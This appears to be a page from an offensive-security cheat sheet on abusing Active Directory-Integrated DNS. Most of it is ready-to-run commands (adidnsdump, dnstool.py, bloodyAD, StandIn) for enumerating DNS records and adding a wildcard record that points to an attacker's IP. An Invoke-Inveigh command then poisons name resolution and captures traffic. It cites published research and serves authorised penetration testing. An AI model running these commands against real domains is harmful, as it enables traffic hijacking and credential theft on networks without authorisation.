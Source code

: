 # Active Directory - Integrated DNS - ADIDNS

ADIDNS zone DACL (Discretionary Access Control List) enables regular users to create child objects by default, attackers can leverage that and hijack traffic. Active Directory will need some time (~180 seconds) to sync LDAP changes via its DNS dynamic updates protocol.

* Enumerate all records
    ```ps1
    adidnsdump -u DOMAIN\\user --print-zones dc.domain.corp (--dns-tcp)
    # or
    bloodyAD --host 10.10.10.10 -d example.lab -u username -p pass123 get dnsDump
    ```
* Query a node
    ```ps1
    dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action query $DomainController (--legacy)
    # or
    bloodyAD -u john.doe -p 'Password123!' --host 192.168.100.1 -d bloody.lab get search --base 'DC=DomainDnsZones,DC=bloody,DC=lab' --filter '(&(name=allmightyDC)(objectClass=dnsNode))' --attr dnsRecord
    ```
* Add a node and attach a record
    ```ps1
    dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action add --data $AttackerIP $DomainController
    # or
    bloodyAD --host 10.10.10.10 -d example.lab -u username -p pass123 add dnsRecord dc1.example.lab <Attacker IP>

    bloodyAD --host 10.10.10.10 -d example.lab -u username -p pass123 remove dnsRecord dc1.example.lab <Attacker IP>
    ```

The common way to abuse ADIDNS is to set a wildcard record and then passively listen to the network.

```ps1
Invoke-Inveigh -ConsoleOutput Y -ADIDNS combo,ns,wildcard -ADIDNSThreshold 3 -LLMNR Y -NBNS Y -mDNS Y -Challenge 1122334455667788 -MachineAccounts Y
```


## DNS Reconnaissance

Perform **ADIDNS** searches

```powershell
StandIn.exe --dns --limit 20
StandIn.exe --dns --filter SQL --limit 10
StandIn.exe --dns --forest --domain <domain> --user <username> --pass <password>
StandIn.exe --dns --legacy --domain <domain> --user <username> --pass <password>
```


## References

* [Getting in the Zone: dumping Active Directory DNS using adidnsdump - Dirk-jan Mollema](https://blog.fox-it.com/2019/04/25/getting-in-the-zone-dumping-active-directory-dns-using-adidnsdump/)
* [ADIDNS Revisited – WPAD, GQBL, and More - December 5, 2018 | Kevin Robertson](https://www.netspi.com/blog/technical/network-penetration-testing/adidns-revisited/)
* [Beyond LLMNR/NBNS Spoofing – Exploiting Active Directory-Integrated DNS - July 10, 2018 | Kevin Robertson](https://www.netspi.com/blog/technical/network-penetration-testing/exploiting-adidns/)